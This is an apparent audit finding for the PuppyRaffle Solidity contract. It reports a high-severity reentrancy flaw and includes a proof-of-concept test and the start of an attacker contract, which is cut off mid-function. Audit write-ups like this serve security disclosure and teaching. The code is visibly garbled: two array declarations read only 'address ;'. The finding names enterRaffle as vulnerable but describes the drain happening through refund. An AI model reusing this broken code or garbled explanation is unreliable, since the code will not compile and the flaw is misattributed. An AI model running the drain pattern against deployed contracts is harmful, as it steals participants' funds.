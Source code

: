 ### [H-1] Reentrancy vulnerability in `PuppyRaffle::enterRaffle` allows attacker to drain funds

**Description:**  
The `PuppyRaffle::enterRaffle` function is vulnerable to reentrancy attacks. An attacker can exploit this vulnerability by calling the `PuppyRaffle::enterRaffle` function multiple times within a single transaction, causing the contract to recursively call back into itself before the initial call is completed. This allows the attacker to manipulate the contract’s state and potentially withdraw funds more than once, draining the contract's balance. The contract does not have adequate protection against reentrancy, particularly within the refund mechanism.

**Impact:**  
An attacker can use this vulnerability to repeatedly call the `refund` function and drain the contract of its funds. This would allow the attacker to bypass the expected behavior of the contract, leading to loss of funds for the legitimate participants. Moreover, this attack could discourage users from participating in the raffle, as the integrity of the contract is compromised.



**Proof of Concept:**  
The vulnerability can be demonstrated through the following test and contract implementation, which exploits the reentrancy flaw by repeatedly calling the `refund` function.

```solidity
// Part of test for reentrancy attack
function test_reentrancyRefund() public {
    address ;
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attackUser = makeAddr("attackUser");
    vm.deal(attackUser, 1 ether); // to give attackUser some money

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingContractBalance = address(puppyRaffle).balance;

    // Attack
    vm.prank(attackUser);
    attackerContract.attack{value: entranceFee}();

    console.log("starting attacker contract balance: ", startingAttackContractBalance);
    console.log("starting contract balance: ", startingContractBalance);

    console.log("ending attacker contract balance: ", address(attackerContract).balance);
    console.log("ending contract balance: ", address(puppyRaffle).balance);
}
```

```solidity
// ReentrancyAttacker contract that exploits the vulnerability
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address ;
        players[0] = address(this);
```